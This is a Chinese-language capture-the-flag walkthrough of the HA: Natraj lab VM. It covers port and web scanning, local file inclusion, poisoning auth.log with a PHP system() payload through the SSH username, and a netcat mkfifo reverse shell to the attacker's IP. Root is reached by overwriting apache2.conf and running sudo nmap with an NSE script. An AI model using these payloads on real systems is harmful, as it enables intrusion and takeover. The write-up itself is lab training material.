








# natraj
## 信息收集阶段
### 全端口扫描
```
sudo nmap -p- 192.168.146.69                         
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-21 12:26 HKT
Nmap scan report for 192.168.146.69
Host is up (0.00015s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:2D:8E:41 (VMware)

```
### 指定端口扫描
```
sudo nmap -p22,80 -sV -A 192.168.146.69
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-21 12:27 HKT
Nmap scan report for 192.168.146.69
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:9f:da:f4:2e:67:01:92:d5:da:7f:70:d0:06:b3:92 (RSA)
|   256 bc:ea:f1:3b:fa:7c:05:0c:92:95:92:e9:e7:d2:07:71 (ECDSA)
|_  256 f0:24:5b:7a:3b:d6:b7:94:c4:4b:fe:57:21:f8:00:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA:Natraj
MAC Address: 00:0C:29:2D:8E:41 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.29 ms 192.168.146.69

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.79 seconds

```
### web信息收集
#### nikto
```
└─$ nikto -h 192.168.146.69
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.69
+ Target Hostname:    192.168.146.69
+ Target Port:        80
+ Start Time:         2022-07-21 12:28:46 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 38a1, size: 5a72f099ae180, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: POST, OPTIONS, HEAD, GET 
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3268: /console/: Directory indexing found.
+ /console/: Application console found
+ 7915 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2022-07-21 12:29:36 (GMT8) (50 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
                                                                                                                                                            
┌──(aacai㉿
```
#### dirsearch
```
└─$ dirsearch -u http://192.168.146.69                                                                                                                  1 ⨯

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/aacai/.dirsearch/reports/192.168.146.69/_22-07-21_12-30-19.txt

Error Log: /home/aacai/.dirsearch/logs/errors-22-07-21_12-30-19.log

Target: http://192.168.146.69/

[12:30:19] Starting: 
[12:30:20] 403 -  279B  - /.ht_wsr.txt
[12:30:20] 403 -  279B  - /.htaccess.bak1
[12:30:20] 403 -  279B  - /.htaccess.sample
[12:30:20] 403 -  279B  - /.htaccess.orig
[12:30:20] 403 -  279B  - /.htaccess.save
[12:30:20] 403 -  279B  - /.htaccess_extra
[12:30:20] 403 -  279B  - /.htaccess_orig
[12:30:20] 403 -  279B  - /.htaccess_sc
[12:30:20] 403 -  279B  - /.htaccessOLD
[12:30:20] 403 -  279B  - /.htaccessBAK
[12:30:20] 403 -  279B  - /.htaccessOLD2
[12:30:20] 403 -  279B  - /.htm
[12:30:20] 403 -  279B  - /.html
[12:30:20] 403 -  279B  - /.htpasswds
[12:30:20] 403 -  279B  - /.htpasswd_test
[12:30:20] 403 -  279B  - /.httr-oauth
[12:30:21] 403 -  279B  - /.php
[12:30:33] 301 -  318B  - /console  ->  http://192.168.146.69/console/
[12:30:33] 200 -  942B  - /console/
[12:30:37] 200 -    5KB - /images/
[12:30:37] 301 -  317B  - /images  ->  http://192.168.146.69/images/
[12:30:38] 200 -   14KB - /index.html
[12:30:47] 403 -  279B  - /server-status
[12:30:47] 403 -  279B  - /server-status/

Task Completed
                                                                                                                                                            
┌──(aacai㉿kali)-[~/Desktop/gooann/natraj-192.168.146.69]
└─$ 

```
### web页面元素信息发现


### 文件包含漏洞
```
发现file文件, 尝试使用ffuf进行fuzz
└─$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u "http://192.168.146.69/console/file.php?FUZZ=/etc/passwd" -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.146.69/console/file.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

file                    [Status: 200, Size: 1398, Words: 9, Lines: 28, Duration: 1ms]
:: Progress: [4712/4712] :: Job [1/1] :: 444 req/sec :: Duration: [0:00:04] :: Errors: 0 ::

发现存在文件包含漏洞
```



查看默认日志目录下的auth.log, 发现记录了访问日志

>尝试ssh登录, 无所谓用户名, 不知道用户名和密码

>可以发现用户名在此显示

#### 利用LFI和local日志获取反弹shell
>使用php内的system函数把get请求换成cmd
```
└─$ ssh '<?php system($_GET['cmd']); ?>'@192.168.146.69                                                                                                 1 ⨯
The authenticity of host '192.168.146.69 (192.168.146.69)' can't be established.
ECDSA key fingerprint is SHA256:LvUVmGWIYBfaqxlxouyJwlU19DzRO0Y9dMcBclxz1zU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.146.69' (ECDSA) to the list of known hosts.
<?php system($_GET[cmd]); ?>@192.168.146.69's password: 
Permission denied, please try again.
<?php system($_GET[cmd]); ?>@192.168.146.69's password: 
Permission denied, please try again.
<?php system($_GET[cmd]); ?>@192.168.146.69's password: 
<?php system($_GET[cmd]); ?>@192.168.146.69: Permission denied (publickey,password).

```
#### 反弹shell
```
GET /console/file.php?file=/var/log/auth.log&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.146.63%204444%20%3E%2Ftmp%2Ff HTTP/1.1

Host: 192.168.146.69

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Accept-Encoding: gzip, deflate

Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

Connection: close


```



### 提权
> 本地使用python运行http服务, 从远程拷贝linpeas
```
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@ubuntu:/tmp$ ls
ls
f
www-data@ubuntu:/tmp$ wget http://192.168.146.63/linpeas.sh
wget http://192.168.146.63/linpeas.sh
--2022-07-20 22:39:11--  http://192.168.146.63/linpeas.sh
Connecting to 192.168.146.63:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776967 (759K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 758.76K  --.-KB/s    in 0.005s  

2022-07-20 22:39:11 (160 MB/s) - 'linpeas.sh' saved [776967/776967]

www-data@ubuntu:/tmp$ chmod 755 linpeas.sh
chmod 755 linpeas.sh
www-data@ubuntu:/tmp$ 

```
#### 获取关键信息
```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2017-0358] ntfs-3g-modprobe

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1072
   Exposure: less probable
   Tags: ubuntu=16.04{ntfs-3g:2015.3.14AR.1-1build1},debian=7.0{ntfs-3g:2012.1.15AR.5-2.1+deb7u2},debian=8.0{ntfs-3g:2014.2.15AR.2-1+deb8u2}
   Download URL: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/41356.zip
   Comments: Distros use own versioning scheme. Manual verification needed. Linux headers must be installed. System must have at least two CPU cores.

══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/etc/apache2/apache2.conf
/run/lock
/run/lock/apache2
/tmp
/tmp/linpeas.sh
/var/cache/apache2/mod_cache_disk
/var/lib/php/sessions
/var/tmp
/var/www/html


```
> 在/home目录发现两个用户的文件夹, 但是都没权限查看里面的内容
```
www-data@ubuntu:/home$ cd mahakal
cd mahakal
www-data@ubuntu:/home/mahakal$ ls
ls
www-data@ubuntu:/home/mahakal$ ls -al
ls -al
total 24
drwxr-xr-x 2 mahakal mahakal 4096 Jun  3  2020 .
drwxr-xr-x 4 root    root    4096 Jun  3  2020 ..
-rw------- 1 mahakal mahakal    1 Jun  3  2020 .bash_history
-rw-r--r-- 1 mahakal mahakal  220 Jun  3  2020 .bash_logout
-rw-r--r-- 1 mahakal mahakal 3771 Jun  3  2020 .bashrc
-rw-r--r-- 1 mahakal mahakal  807 Jun  3  2020 .profile
www-data@ubuntu:/home/mahakal$ cd ..
cd ..
www-data@ubuntu:/home$ ls
ls
mahakal  natraj
www-data@ubuntu:/home$ cd natraj
cd natraj
www-data@ubuntu:/home/natraj$ ls
ls
www-data@ubuntu:/home/natraj$ ls -al
ls -al
total 36
drwxr-xr-x 4 natraj natraj 4096 Jun  3  2020 .
drwxr-xr-x 4 root   root   4096 Jun  3  2020 ..
-rw------- 1 root   root    109 Jun  3  2020 .bash_history
-rw-r--r-- 1 natraj natraj  220 Jun  3  2020 .bash_logout
-rw-r--r-- 1 natraj natraj 3771 Jun  3  2020 .bashrc
drwx------ 2 natraj natraj 4096 Jun  3  2020 .cache
drwx------ 3 natraj natraj 4096 Jun  3  2020 .gnupg
-rw-r--r-- 1 natraj natraj  807 Jun  3  2020 .profile
-rw-r--r-- 1 root   root     66 Jun  3  2020 .selected_editor
-rw-r--r-- 1 natraj natraj    0 Jun  3  2020 .sudo_as_admin_successful

```
> 在linpeas.sh里面提醒了我们apache2.conf有可能是个突破口
```
# These need to be set in /etc/apache2/envvars
User ${APACHE_RUN_USER}
Group ${APACHE_RUN_GROUP}
这里的user和group没有被定义, 把apache2.conf放到本地然后修改成另一个用户, 去尝试提权
```

```
http://192.168.146.63/apache2.conf
www-data@ubuntu:/tmp$ cp apache2.conf /etc/apache2/apache2.conf
cp apache2.conf /etc/apache2/apache2.conf
www-data@ubuntu:/tmp$ 

```
>然后....重启服务器
重新反弹shell
获得新用户的权限
```
┌──(aacai㉿kali)-[~/Desktop/gooann/natraj-192.168.146.69]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.146.63] from (UNKNOWN) [192.168.146.69] 57536
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(mahakal) gid=1001(mahakal) groups=1001(mahakal)
$ sudo -l
Matching Defaults entries for mahakal on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mahakal may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/nmap
$ 
```
>这个用户可以在使用nmap的时候可以直接使用sudo
编写一个nse文件, 然后执行/bin/bash
```
$ /usr/bin/script -qc /bin/bash /dev/null
mahakal@ubuntu:/tmp$ ls
ls
f  shell.nse
mahakal@ubuntu:/tmp$ sudo nmap --script=shell.nse
sudo nmap --script=shell.nse
Starting Nmap 7.60 ( https://nmap.org ) at 2022-07-21 00:09 PDT
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:2d:8e:41 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.69/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 62175sec preferred_lft 62175sec
    inet6 fe80::20c:29ff:fe2d:8e41/64 scope link 
       valid_lft forever preferred_lft forever
# cd  
# ls
root.txt
# cat root.txt


███▄▄▄▄      ▄████████     ███        ▄████████    ▄████████      ▄█ 
███▀▀▀██▄   ███    ███ ▀█████████▄   ███    ███   ███    ███     ███ 
███   ███   ███    ███    ▀███▀▀██   ███    ███   ███    ███     ███ 
███   ███   ███    ███     ███   ▀  ▄███▄▄▄▄██▀   ███    ███     ███ 
███   ███ ▀███████████     ███     ▀▀███▀▀▀▀▀   ▀███████████     ███ 
███   ███   ███    ███     ███     ▀███████████   ███    ███     ███ 
███   ███   ███    ███     ███       ███    ███   ███    ███     ███ 
 ▀█   █▀    ███    █▀     ▄████▀     ███    ███   ███    █▀  █▄ ▄███ 
                                     ███    ███              ▀▀▀▀▀▀  


!! Congrats you have finished this task !!		
							
Contact us here:						
								
Hacking Articles : https://twitter.com/rajchandel/
Geet Madan : https://www.linkedin.com/in/geet-madan/		
																
+-+-+-+-+-+ +-+-+-+-+-+-+-+					
 |E|n|j|o|y| |H|A|C|K|I|N|G|			
 +-+-+-+-+-+ +-+-+-+-+-+-+-+						
__________________________________
# 

```


